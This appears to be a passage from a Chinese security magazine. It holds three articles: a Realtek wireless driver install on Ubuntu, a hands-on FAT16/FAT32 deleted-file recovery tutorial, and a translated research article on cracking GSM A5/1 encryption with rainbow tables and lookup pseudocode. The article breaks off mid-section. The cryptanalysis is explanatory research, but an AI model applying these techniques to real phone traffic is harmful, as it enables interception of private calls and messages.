## 无线安全系列——笔记本无线网卡在 ubuntu 系统下的驱动安装

文/图  古典蛙娃

## 查看硬件配置

命令：`lspci -vv`，该命令会显示笔记本计算机的所有硬件。

我的本子是 X200S，有一块以太网卡（Ethernet controller）和一块无线网卡（Network controller），ubuntu 系统已有以太网卡驱动，但无线网卡仍需到官网下载并安装。


从命令的输出可以看到无线网卡是：Realtek Semiconductor Co., Ltd. Device 8172。

```text
00:19.0 Ethernet controller: Intel Corporation 82567LM Gigabit Network Connection (rev 03)
    Subsystem: Lenovo Device 20ee
    Flags: bus master, fast devsel, latency 0, IRQ 28
    Memory at f2600000 (32-bit, non-prefetchable) [size=128K]
    Memory at f2625000 (32-bit, non-prefetchable) [size=4K]
    I/O ports at 1840 [size=32]
    Capabilities: <access denied>
    Kernel driver in use: e1000e
    Kernel modules: e1000e

03:00.0 Network controller: Realtek Semiconductor Co., Ltd. Device 8172 (rev 10)
    Subsystem: Realtek Semiconductor Co., Ltd. Device e020
    Flags: bus master, fast devsel, latency 0, IRQ 11
    I/O ports at 2000 [size=256]
    Memory at f2500000 (32-bit, non-prefetchable) [size=16K]
    Capabilities: <access denied>
```

Realtek 网卡的官方驱动下载地址：  
http://www.realtek.com.tw/downloads/downloadsView.aspx?Langid=1&PNid=48&PFid=48&Level=5&Conn=4&DownTypeID=3&GetDown=false&Downloads=true#RTL8192SE

## lspci 命令

命令描述：当前很多常用硬件都是 PCI（Peripheral Component Interconnect）设备，如声卡、网卡、USB 控制器等，稍老一点的显卡一般也是 PCI 设备。很可能由于要安装驱动或其他需要查看 PCI 设备的详细信息。`lspci` 命令方便地实现了这一点。

- 命令参数：
- `-v` 使得 lspci 以冗余模式显示更详细的信息（事实上是 PCI 设备能给出的所有东西）。

## 编译驱动程序

解压驱动文件包：

```bash
sudo tar xzvf rtl8192se_linux_2.6.0015.0127.2010.tar.gz
```

编译驱动程序，进入解压出来的目录，使用 make 命令进行编译：

```text
akast@akast-laptop:~/rtl8192se_linux_2.6.0015.0127.2010$ make
make[1]: 正在进入目录 `/usr/src/linux-headers-2.6.31-20-generic'
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_core.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_regd.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_rfkill.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_eeprom.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_wx.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_cam.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_pm.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_ps.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_dm.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_debug.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl_ethtool.o
```

```text
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl8192s/r8192S_dev.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl8192s/r8192s_Efuse.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl8192s/r8192S_phy.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/rtl8192s/r8192S_firmware.o
...
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/../rtllib/rtllib_crypt_ccmp.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/../rtllib/wapi.o
CC [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/../rtllib/wapi_interface.o
LD [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/r8192se_pci.o
Building modules, stage 2.
MODPOST 1 modules
CC /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/r8192se_pci.mod.o
LD [M] /home/akast/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192/r8192se_pci.ko
```

## tar 命令

命令描述：可以为文件和目录创建档案。利用 tar，用户可以为某一特定文件打包（备份文件），也可以在档案中改变文件，或者向档案中加入新的文件。

- 命令参数：
- `x` 从档案文件中释放文件。
- `f` 使用档案文件或设备，这个选项通常是必选的。
- `v` 详细报告 tar 处理的文件信息。如无此选项，tar 不报告文件信息。
- `z` 用 gzip 来压缩/解压缩文档，加上该选项后能够将档案文档进行压缩，但还原时也一定要使用该选项进行解压缩。

## 复制文件

复制固件进入系统固件目录：

```bash
sudo cp -rf firmware/RTL8192SE /lib/firmware
```

复制驱动文件进入系统驱动目录：

```bash
akast@akast-laptop:~/rtl8192se_linux_2.6.0015.0127.2010/HAL/rtl8192$
sudo cp r8192se_pci.ko /lib/modules/`uname -r`/kernel/drivers/net/
```

cp 命令  
命令描述：该命令的功能是将给出的文件或目录复制到另一文件或目录中，同 MSDOS 下的 copy 命令一样，功能十分强大。

- `-f` 删除已经存在的目标文件而不提示。
- `-r` 若给出的源文件是目录文件，此时 cp 将递归复制该目录下所有的子目录和文件。此时目标文件必须为一个目录名。

## 加载驱动

命令：`sudo depmod -a`

depmod 命令  
命令描述：分析可加载模块的依赖性，生成 `modules.dep` 文件和映射文件。

- `-A` (`--quick`) 检查是否有模块比 `modules.dep` 中的模块新，若有则重新生成文件。

## 重启系统

命令：`reboot`  
成功安装驱动，可以正常使用无线网卡。

reboot 命令  
命令描述：执行 reboot 指令可让系统停止运作，并重新开机。

- `-d` 重新开机时不把数据写入记录文件 `/var/tmp/wtmp`。该参数具有 `-n` 参数的效果。
- `-f` 强制重新开机，不调用 shutdown 指令的功能。
- `-i` 在重开机之前，先关闭所有网络界面。
- `-n` 重开机之前不检查是否有未结束的程序。
- `-w` 仅做测试，并不真的将系统重新开机，只会把重开机的数据写入 `/var/log` 目录下的 wtmp 记录文件。

前置知识：无  
关键词：数据恢复、手动恢复

# 数据恢复入门——手动恢复误删除文档


文/图  王丽婧  尹晓丹

数据恢复是指由于各种原因导致数据损失时，把保留在介质上的数据重新恢复的过程。即使数据被删除或硬盘出现故障，只要在介质没有严重受损的情况下，数据就有可能被完好无损地恢复。

格式化或误删除引起的数据损失的情况下，大部分数据仍未损坏，用软件重新恢复连接环节的话，可以重读数据。如果硬盘因硬件损坏而无法访问时，更换发生故障的零件，即可恢复数据。在介质严重受损或数据被覆盖情况下，数据将无法恢复。本文将举例介绍数据恢复的原理，并给出几个具体实现的例子，希望对大家有所帮助。

FAT 表记录了磁盘数据文件的存储链表。文件系统将磁盘空间按一定数目的扇区为单位进行划分，这样的单位称为簇。通常情况下，每扇区 512 字节的原则是不变的。簇的大小一般是 2^n（n 为整数）个扇区的大小，可以是 512B、1KB、2KB、4KB、8KB、16KB、32KB、64KB，实际中通常不超过 32KB。FAT16 系统簇号用 16 位二进制数表示，从 0002H 到 FFEF 为可用簇号，FFF0 表示坏簇，FFFF 表示文件结束簇。每簇的使用情况用 16 位二进制填写，未被分配的簇位置写零，已被分配的簇给该文件填入下一个占用簇的簇号，如果是最后一个簇填写 FFFF。这样刚好将文件占用的各簇构成一个簇链，保存在 FAT 表中。FAT32 改用 32 位二进制数表示。

## FAT 文件系统

首先要了解文件系统机制，这里用 FAT 文件系统举例。以下是 FAT 分区结构，如图 1 所示。  
FAT 表（File Allocation Table，文件分配表）是 Microsoft 在 FAT 文件系统中用于磁盘数据（文件）索引和定位引进的一种链式结构。

| 引导扇区 | 其余的保留扇区 | FAT1 | FAT2（重复的） | 根文件夹空间 | 其他文件夹及所有文件 | 剩余扇区 |
|---|---|---|---|---|---|---|
| 分区头 | 保留区 | 约 2 簇 | 与 FAT1 大小一致 | 根目录区 | 数据区 | 未分配区 |

图 1

图 2 所示为 FAT 表的具体内容（以 FAT16 为例）。

FAT 中将目录当文件进行处理。文件和目录都以 32 字节的目录项来进行索引，长文件名拥有多个目录项。图 3 所示为 FAT 目录项 32 个字节的表示定义。

文件就是通过 FAT 簇链表以及目录项作为索引在磁盘中存放，在删除时，都不会真正将数据从磁盘中去除，而是将索引清除或只是部分清除。下面将具体举例介绍。



图 2

| 字节偏移（16进制） | 字节数 | 定义 |
|---|---:|---|
| 0x0-0x7 | 8 | 文件名 |
| 0x8-0xA | 3 | 扩展名 |
| 0xB | 1 | 属性字节 |
| 0xC | 1 | 系统保留 |
| 0xD | 1 | 创建时间的毫秒位 |
| 0xE-0xF | 2 | 文件创建时间 |
| 0x10-0x11 | 2 | 文件创建日期 |
| 0x12-0x13 | 2 | 文件最后访问日期 |
| 0x14-0x15 | 2 | 文件起始簇号高 16 位 |
| 0x16-0x17 | 2 | 文件修改时间 |
| 0x18-0x19 | 2 | 文件修改日期 |
| 0x1A-0x1B | 2 | 文件起始簇号低 16 位 |
| 0x1C-0x1F | 4 | 表示文件长度 |

图 3

## 手动恢复被删除文档

- 1. 首先，在 U 盘中，创建一个 WangU 的文件夹，如图 4 所示。
- 2. 以下是新建的文档与文档内容，如图 5 所示。



图 4



图 5

- 2）在删除前
- `<1>` 查找文件夹 WangU 的目录项，如图 6 所示。
- 可以看出起始簇号为：00009C61。
- `<2>` FAT 表对应簇链如图 7 所示。
- 由于这是 FAT16，所以每簇占用 2 个字节。该目录内容较少，一簇就可以放下，所以开始簇也是结束簇。
- `<3>` 根据起始簇号 9C61（十进制为 40033）转换为扇区：5124512，通过这个可以找到文件夹内存在的文档，如图 8、图 9 所示。

```text
00042BA0 57 41 4E 47 55 ... WANGU
00042BB0 ...
```

图 6

```text
FF FF FF FF FF ...
FF FF FF FF 00 00 ...
FF FF 6A 9C 6B 9C ...
```

图 7



图 8

```text
offset ...
9C6340D0 ...
... MYTEST.TXT ...
```

图 9

- `<4>` 根据该目录项，就可以找到该文件的首簇号：00009C62，同理经过转换可得 5124640 扇区。可以找到该 txt 中对应内容，如图 10、图 11 所示。



图 10

```text
offset ...
9C644000 4D 79 20 6E 61 6D 65 ...
...
```

图 11

- `<5>` 同时可以找到 Mytest.txt 对应 FAT 表的簇链情况，如图 12 所示。

```text
FF FF FF FF FF ...
FF FF FF FF 00 00 ...
FF FF 6A 9C 6B 9C ...
```

图 12

该文档内容较少，同样开始簇也就是结束簇，所以簇链内容只有一个，且为结束标志 FFFF。

以上是删除前整体情况，现在删除 Mytest.txt。因为是在 U 盘中，所以会被直接删除掉，而不会被放入回收站。如果要恢复原始文件需要进行如下步骤。

- 1. 找文件夹目录项，找到首簇号，与删除前者相同，如图 13 所示。

```text
57 41 4E 47 4C 4A 20 20 20 20 20 10 00 ...
DA 3C DA 3C 00 00 17 00 DA 3C 61 9C ...
```

> 图 13

可以看出起始簇号为：00009C61。

- 2. FAT 表对应簇链如图 14 所示。

```text
0000086192: FF FF FF FF ...
0000086208: FF FF FF FF 00 00 00 00 ...
0000086224: FF FF 6A 9C 6B 9C 6C 9C ...
```

> 图 14

- 3. 根据起始簇号 9C61（十进制为 40033）转换为扇区：5124512，通过这个可以找到文件夹内还存在的文档，如刚刚建立的 Mytest.txt 的目录项，如图 15 所示。

```text
2623750240 E5 59 54 45 53 54 20 20 54 58 54 ...
2623750256 DA 3C DA 3C ...
```

比较删除前：

```text
9C634060 4D 59 54 45 53 54 20 20 54 58 54 ...
9C634070 DA 3C DA 3C ...
```

> 图 15

设置了 E5 标志，起始首簇位置高位也被清空，不过这个一开始就是空的，所以看不出来而已。

- 4. 同时可以找到被删除 Mytest.txt 对应 FAT 表的簇链情况，如图 16 所示。

```text
0000086192 FF FF FF FF ...
0000086208 FF FF FF FF 00 00 00 00 ...
0000086224 FF FF 6A 9C 6B 9C ...
```

比较删除前：

```text
FF FF FF FF FF ...
FF FF FF FF FF FF 00 00 00 00 ...
```

> 图 16

可见，簇链表被清空。可以看出，如果要手动恢复该文件，只需要将：（1）E5 标志改回 4D；（2）将簇链表设置成为 FFFF。只需要更改如上位置便可以成功恢复出刚刚删除文档。

## 不同删除方式的影响

在上一步的恢复中需要注意：由于这是 U 盘，所以不论采取哪种方式删除，都会完成三件事情：

- 1. 目录项名字处前 2 个字节改为 E5  
- 2. 清空 FAT 中簇链表  
- 3. 清空首簇号高 2 个字节

但是，如果是在本地硬盘中，删除则分为三种方式。为了演示，现在有 WLJ 文档。这次是在 FAT32 系统中，簇链表占 4 个字节，FFFFF0F 表示结束簇。

- 1. 右键删除，删除到回收站中。  
  1) 删除前，目录项 WLJ 如图 17 所示。

```text
000B833C0 57 4C 4A 20 ...
000B833D0 D7 3C D7 3C ...
```

> 图 17

首簇号：00070497h。对应 FAT 簇链，如图 18 所示。

```text
0001C5640 91 04 07 00 FF FF FF 0F ...
0001C5650 00 00 00 00 ...
0001C5660 99 04 07 00 9A 04 07 00 ...
```

> 图 18

  2) 删除后，如图 19 所示。

```text
000B833C0 E5 4C 4A 20 ...
000B833D0 D7 3C D7 3C 00 00 EF 50 ...
```

> 图 19

对应 FAT 簇链，如图 20 所示。

```text
0001C5640 91 04 07 00 FF FF FF 0F ...
0001C5650 00 00 00 00 ...
0001C5660 99 04 07 00 9A 04 07 00 ...
```

> 图 20

可见只做了一件事，就是设置了 E5 标志位，其他都不变。

- 2. 按 Shift+Delete 键直接删除，如图 21 所示。

```text
000B833C0 E5 4C 4A 20 ...
000B833D0 D7 3C D7 3C 00 00 00 00 ...
```

> 图 21

对应 FAT 簇链，如图 22 所示。

```text
0001C5640 91 04 07 00 FF FF FF 0F ...
0001C5650 00 00 00 00 00 00 00 00 ...
0001C5660 00 00 00 00 ...
```

> 图 22

可见要完成三件事情：

- 1）目录项名字处前 2 个字节改为 E5  
- 2）清空 FAT 中簇链表  
- 3）清空首簇号高 2 个字节

- 3. 还有一种删除方式，是先左键删除到回收站中，然后再从回收站中删除。那么首先会设置 E5 标志位，然后还会清空链表，但是高字节保留。

## 总结

本文以 FAT16、FAT32 文件系统为例，演示了手动恢复被删除文件的具体步骤。数据恢复并不神秘，这里只是一个小小的入门，希望能够起到抛砖引玉的作用。也是提醒大家多多注意自己的私密数据，任何数据都是存在被恢复的危险的。

前置知识：无  
关键词：手机隐私、攻击、劫持

# 手机隐私的攻击劫持技术


文/Karsten Nohl（th-us-2010） 译/小小杉

当前最为流行的一种通信技术 GSM 已经几乎遍布大多数国家，连接 40 多亿台终端设备。除电话技术外，GSM 也被用于文本消息（短信）、Internet 浏览器及设备与设备之间的通信。基于声音和短信处理的标准可追溯到 1990 年，此后从未修订过。特别是，基于 GSM 技术的早期安全设计也并未打过补丁，这种 GSM 系统中用于防止通信信号被窃听的传统加密技术存在众多的安全漏洞。只是后期在短信的功能之外附加一些增值服务时，使用了不同的安全措施而已，这些不在本文讨论的范围内。

手机电话与短消息可在手机终端与某一基站交互时进行加密。基站可确定本次通信是否已加密处理。发送国家的运营商一般会选择原始的 A5/1 加密算法实施加密处理，但在大多数发展中国家的运营商则不会采用任何加密处理。当前，较弱的 A5/2 算法已经被淘汰，而大多数新推出的手机里支持较健壮的 A5/3 算法，但并未推广。

手机 SIM 卡与运营商共享一个加密主密钥。会话密钥则用于每次手机通信或短信服务，此密钥由主密钥与一个随机数产生。对于每次密钥的导出，运营商可选择任意 Hash 函数散列，只要 SIM 卡和运营商中央系统能知道此 Hash 函数即可。密钥导出的早期标准过后，COMP128v1 已被证实是可逆的，大多数运营商不再公开其选择的 Hash 函数，潜在地创造了一个很模糊的安全。会话密钥导出后，接下来就要进行加密。本文揭示可用于解密电话通信或文本消息的 A5/1 会话密钥。

## 已知明文攻击

为验证破解后的密钥，我们必须获取部分加密数据。要求为连续 64 位数据块，这些已知的比特位可从加密的控制信息中获取。商业 A5/1 加密算法的破解器利用完整短信加密方式（即唯密文方式），此消息是在加密通信中最先被加密的信息，消息中通常都是相同的数据，而且大多都是空的填充字符。尽管空帧不携带信息，它们仍然会被加密，所以密钥破解器会将空帧作为主要攻击目标。最近的 GSM 标准修订要求随机产生空帧信息，从而尽量避免其被破解的可能性。然而，包括系统短信消息在内的其他信息也同样可能携带有高度可预测性的数据，这些数据在唯密文攻击方式不可取时，可选择用于已知明文攻击中。

## 流密码及各种攻击方式

A5/1 是一种流密码加密算法，其采用 64 比特位长的密钥，并由密钥衍生出一个强大的安全机密结构。密钥流的产生即是每次从这个机密结构中产生一个比特位形成。手机本身及基站都按照这种密钥流生成算法产生出一个相同的密钥流来加解密短信。短信发送方会在消息发送之前，使用部分加密流对其进行异或操作得到密文序列，并将密文从手机传递到基站。

基站接收到加密的信息，用相同的密钥流逐位异或解密。发送方将生成的密钥流与明文数据帧的每一位相异或得到密文序列，接收端再使用相同密钥流逐位异或来解密数据。只要 A5/1 算法的构造保密，那么数据通信就是安全的。尽管出现了针对 A5/1 密码的代数攻击，而代数攻击需要大量的已知明文信息，所以并没有对 GSM 通信中的 A5/1 算法构成威胁。

## 暴力攻击

目前，只有利用 A5/1 算法相对较小密钥长度的攻击才能破解 A5/1 算法。最直接的攻击方式则是暴力攻击，暴力攻击试图尝试所有可能值来猜测密码。同时，暴力攻击也是最昂贵的攻击——在应用上述优化方案的情况下，暴力攻击仍然需要花费成千上万的 CPU 年和 GPU 年。

### 密码本攻击（Code book attacks）

密码本攻击试图创建单个密钥下包含明文和密文之间所有可能变换的密码本。密码流对相应的密码本进行整理分类。每一个密钥值都可以在密码本中检索出来。虽然计算密码本的成本与进行一次暴力攻击的成本一样高，但密码本一旦计算出来以后，之后的每次破解却不会增加任何计算成本。不过，储存一个 64 位密码的密码本代价极高，大概需要数千兆字节的空间。

## 内存、时间平衡法（Time-Memory Trade-Offs）

暴力攻击（无须存储空间、所需时间长）和密码本攻击（需要大容量、实时性）为新的加密攻击提供了思路。在攻击中，可以牺牲时间来换取存储空间（如内存），时间和空间都可以换取更高的攻击成功率，而且在某种程序上也可以换取更快的预计计算。在时间和空间中平衡选择的攻击方式称之为内存、时间平衡攻击（TMTO 攻击）。

查表法。TMTO 攻击（时空平衡）建立在密码本攻击技术的基础上，但却使用更加复杂的数据结构来存储密钥生成器和加密流的映射。在最简单的案例中，大量的密钥生成器与输出值被链接在一个链表结构中。该链表的头结点和尾结点都存储在查找表（look-up table）中。假设其中存储如下输入和输出值：

```text
1: $state = $input // 随机选择
2: for n=1..1,000,000
3: $output = A5/1($state)
4: $state = $output
```

像密码本一样，拥有许多输入输出对的大表中涵盖了值空间的重要部分。然而，由于查找表中只存储了链表的头结点和尾结点，所以并不能直接访问链表结点。为了在查找表中找到可被破解的输出值，使用如下的简单算法构建链表——从查找值开始来查找正确的结束值，然后从匹配的 $input 值开始计算链表头结点：

```text
5: $state = $output_to_be_cracked
6: for n=1..1,000,000
7: $end_value = look-up_chain_end_values_from_table($state) // 计算链表
8: if($end_value != null) // 直到查找到尾结点为止
9: $start_value = get_start_value($end_value) // 从链表头重新开始
10: $state2 = $start_value
11: while(A5/1($state2) != $output_to_be_cracked) // 忽略碰撞点
12: $state2 = A5/1($state2)
13: return $state2 // 生成待破解 $output 的 state
14: $state = A5/1($state)
```

这种方法给出时间和空间之间平衡关系的连续曲线。随着链表长度的增长，查找时间也相应增加了（在此例中，所有链表长均为 1,000,000），但是所需的存储空间却减少了。然而，这种预先计算算法却并不现实，原因如下：

- 1. **硬盘瓶颈**：在短时间内计算 1,000,000 次 A5/1 算法密钥是可行的，但却无法完成 1,000,000 字节容量的查找操作。  
- 2. **碰撞**：随着表长的增大，同时 A5/1 映射的不完善性造成了重复值出现的概率越来越大，这就导致两链表之间从碰撞点到链表尾结点出现大量冗余数据。这造成了容量浪费，也降低了单一表的覆盖率。

现在出现了许多克服这些实际限制的技术。两个最流行的时间内存平衡技术就是特征点和彩虹表（源数据与加密数据之间对应的 Hash 表）。这种优化技术解决了硬盘瓶颈问题，只有符合特定标准的特征点才被存储为尾结点值——如在末尾包含一定数量零值的点。上面的伪代码可以更新如下：

```text
while(($state && 0xFFFF) != 0) // 测试 16 个零比特
...
if(($state && 0xFFFF) == 0) {
  $end_value = look-up_chain_end_values_from_table($state)
}
```

尽管链表长度不定，但最终一定以特征点结束。当执行值破解时，需要对链表进行计算，直到查找到特征点才结束，当且仅当此节点来自硬盘中的查找表，从而缓解硬盘瓶颈。同时，由于冗余值导致了相同的尾结点，而且冗余值也能被过滤掉，因此特征点也有助于查找碰撞点。

## 碰撞攻击

针对碰撞另一个更有效措施就是彩虹表。这种技术对每种链表使用不同的函数（或颜色），因此彩虹表中的碰撞值造成了单一值冗余（除非在同一环节中出现碰撞）。

为破解 A5/1 算法而设计的优化表是特征点和彩虹表的结合体。需要在查找到特征点之前一直计算链表，然后彩虹函数/颜色会发生变化，此时继续第一个函数的计算，直至遇到下一个特征点为止，最后颜色又会再次发生变化——在优化表布局中共有 8 种颜色。

为了达到必要的覆盖率，我们计算几个彼此独立工作的表。每个表使用一套不同的颜色，这可以减少表的冗余。该表可以运行在不同的机器上，从而为分发预先计算和破解成本提供方法。

表设计中最后一个优化准则是整体破解成本和最低破解成本之间的平衡。在一定范围内，长度更长的链表其效率越高。但是，完成单一计算核心上长链表的时间则更长，这就限制了攻击所需花费的最短时间。所有平衡预测结果都嵌在一个 Excel 模型中。

## 攻击优化

表元素调整后，我们的破解器也在三个方面得到了进一步优化，处理速度得到了数量级的提升。目标是快速视频采集卡的图形处理器（GPU），其能够提供比 CPU 更好的运算能力，并且其较 FPGA 更易追踪和编程。Nvidia 和 ATI 支持的现代图形处理器具有高效的并行处理能力。

Bitslicing（位片化，通过将比特矩阵转置的方法提高签名文件的访问速度）。通过在填充一个数据字中多个数据流并计算整个数据字上的指令（单指令、多数据指令：SIMD 指令），来达到进一步并行化的目的。在极端情况下，我们用一个 256 位的数据字将一个正在计算中的 256 位比特流填充，增加的并行性也加速了表预先计算和密钥破解速度。

密钥空间缩小。一般攻击破解加密密码的成本与加密密钥空间的大小相关。在 TMTO 表中，当密钥空间减少时，所需链表的数量和长度都会减少。对于 A5/1 算法，通过不断为密钥计时，我们发现密钥空间比原来的 64 位密钥减少了。由于不完善的非线性特征，在每个时钟周期内几个特征值都会发生碰撞，因此采用轮数周期的增加来降低现有特征值，从而降低碰撞概率。在 GSM 中，A5/1 密码在首次使用前会被计时 100 次。

